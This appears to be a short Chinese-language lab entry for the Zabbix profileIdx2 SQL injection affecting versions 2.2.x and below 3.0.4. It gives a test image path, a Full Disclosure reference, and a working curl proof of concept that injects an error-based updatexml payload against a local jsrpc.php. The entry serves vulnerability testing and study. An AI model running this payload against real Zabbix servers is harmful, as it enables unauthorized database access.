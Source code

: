 ## profileIdx2 注入

测试镜像

* src/zabbix/2.2.10/

影响版本

* 2.2.X
* < 3.0.4

参考链接

* [Re: Zabbix 2.2.x, 3.0.x SQL Injection Vulnerability](http://seclists.org/fulldisclosure/2016/Aug/79)

Poc

```
# 请先修正 cookie

curl 'http://127.0.0.1/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471054088083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=updatexml(2,concat(0x7e,(version())),0)&updateProfile=true&screenitemid=&period=3600&stime=20170813040734&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1'
```

